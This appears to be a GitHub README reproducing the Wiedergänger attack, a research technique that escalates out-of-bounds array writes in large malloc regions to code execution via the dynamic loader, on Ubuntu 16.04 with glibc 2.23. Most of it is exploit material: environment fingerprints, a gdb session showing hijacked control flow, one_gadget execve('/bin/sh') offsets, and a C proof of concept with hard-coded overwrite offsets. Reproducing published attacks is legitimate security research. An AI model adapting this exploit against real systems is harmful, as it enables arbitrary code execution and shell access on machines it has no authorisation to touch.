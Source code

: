 # LOP-wiedergaenger
Dynamic Loader Oriented Programming - Wiedergaenger PoC (Proof of Concept)

My experiences and reproduction on Ubuntu 16.04.5 LTS

Quoting the [whitepaper](/kirsch-roots-2017-paper.pdf):

"In the following, we describe the Wiedergänger-Attack, a new attack vector that reliably allows to escalate unbounded array
access vulnerabilities occurring in specifically allocated memory regions to full code execution on programs running on i386/x86_64 Linux.

Wiedergänger-attacks abuse determinism in Linux ASLR implementation combined with the fact that (even with protection mechanisms such as relro and glibc’s pointer mangling enabled) there exist easy-to-hijack, writable (function) pointers in application memory."

Original Authors Repo: https://github.com/kirschju/wiedergaenger


```

$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.5 LTS"


$ apt-show-versions libc6      
libc6:amd64/xenial-security 2.23-0ubuntu10 uptodate
libc6:i386/xenial-security 2.23-0ubuntu10 uptodate

$ apt-show-versions libc-bin
libc-bin:amd64/xenial-security 2.23-0ubuntu10 uptodate
libc-bin:i386 not installed


$ dpkg -s libc-bin
Package: libc-bin
Essential: yes
Status: install ok installed
Priority: required
Section: libs
Installed-Size: 3479
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: foreign
Source: glibc
Version: 2.23-0ubuntu10
Depends: libc6 (>> 2.23), libc6 (<< 2.24)
Suggests: manpages
Conffiles:
 /etc/bindresvport.blacklist 4c09213317e4e3dd3c71d74404e503c5
 /etc/default/nss d6d5d6f621fb3ead2548076ce81e309c
 /etc/gai.conf 28fa76ff5a9e0566eaa1e11f1ce51f09
 /etc/ld.so.conf 4317c6de8564b68d628c21efa96b37e4
 /etc/ld.so.conf.d/libc.conf d4d833fd095fb7b90e1bb4a547f16de6
Description: GNU C Library: Binaries
 This package contains utility programs related to the GNU C Library.
 .
  * catchsegv: catch segmentation faults in programs
  * getconf: query system configuration variables
  * getent: get entries from administrative databases
  * iconv, iconvconfig: convert between character encodings
  * ldd, ldconfig: print/configure shared library dependencies
  * locale, localedef: show/generate locale definitions
  * tzselect, zdump, zic: select/dump/compile time zones
Homepage: http://www.gnu.org/software/libc/libc.html
Original-Maintainer: GNU Libc Maintainers <debian-glibc@lists.debian.org>

$ dpkg -s libc6   
Package: libc6
Status: install ok installed
Priority: required
Section: libs
Installed-Size: 10953
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: same
Source: glibc
Version: 2.23-0ubuntu10
Replaces: libc6-amd64
Depends: libgcc1
Suggests: glibc-doc, debconf | debconf-2.0, locales
Breaks: hurd (<< 1:0.5.git20140203-1), libtirpc1 (<< 0.2.3), locales (<< 2.23), locales-all (<< 2.23), lsb-core (<= 3.2-27), nscd (<< 2.23)
Conffiles:
 /etc/ld.so.conf.d/x86_64-linux-gnu.conf 593ad12389ab2b6f952e7ede67b8fbbf
Description: GNU C Library: Shared libraries
 Contains the standard libraries that are used by nearly all programs on
 the system. This package includes shared versions of the standard C library
 and the standard math library, as well as many others.
Homepage: http://www.gnu.org/software/libc/libc.html
Original-Maintainer: GNU Libc Maintainers <debian-glibc@lists.debian.org>




$ md5sum /lib/x86_64-linux-gnu/ld-2.23.so
f5ebf0bbc32238922f90e67cb60cdf7e  /lib/x86_64-linux-gnu/ld-2.23.so


$ ldd --version
ldd (Ubuntu GLIBC 2.23-0ubuntu10) 2.23
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.



$ md5sum /lib/x86_64-linux-gnu/libc.so.6
5d8e5f37ada3fc853363a4f3f631a41a  /lib/x86_64-linux-gnu/libc.so.6

$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu10) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.4.0 20160609.
Available extensions:
	crypt add-on version 2.1 by Michael Glad and others
	GNU Libidn by Simon Josefsson
	Native POSIX Threads Library by Ulrich Drepper et al
	BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.




GDB

$ gdb ./test           
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./test...done.
(gdb) b main
Breakpoint 1 at 0x400535: file test.c, line 8.
(gdb) r
Starting program: /home/mk/wiedergaenger/test 

Breakpoint 1, main (argc=1, argv=0x7fffffffdb68) at test.c:8
8	  ptr = malloc(0x200000);
(gdb) cont
Continuing.
process 20512 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
H�5C8: 1: ^e��: not found
[Inferior 1 (process 20512) exited with code 0177]
(gdb) 



I don't fullfill the gadget constraints $rax to be NULL, hence the funny error above. You can see however that the execution flow was taken over. With the right One RCE gadget, a successful shell would be spawned and/or desired code would be executed.



$ one_gadget /lib/x86_64-linux-gnu/libc-2.23.so
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

Source:


#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv)
{
  unsigned char *ptr;
  ptr = malloc(0x200000);


  unsigned long base = 0x7f2158;


  *(unsigned long long *)&ptr[base] = 0x7ffff7a52216-0x4002b8;

  ptr[base + 0xa8] = 0xb8;

  ptr[base + 0x120] = 0xe3;


  return 0;
}

```

Some screenshots:


GDB Session

![LOP Wiedergaenger GDB](/wiedergaenger-gdb.png)


One RCE Gadgets available:

![One RCE Gadget](/one-rce-gadget.png)


Example with Shell (instead of One RCE gadget I pointed to func())


![LOP Wiedergaenger Shell](/wiedergaenger-2-shell.png)

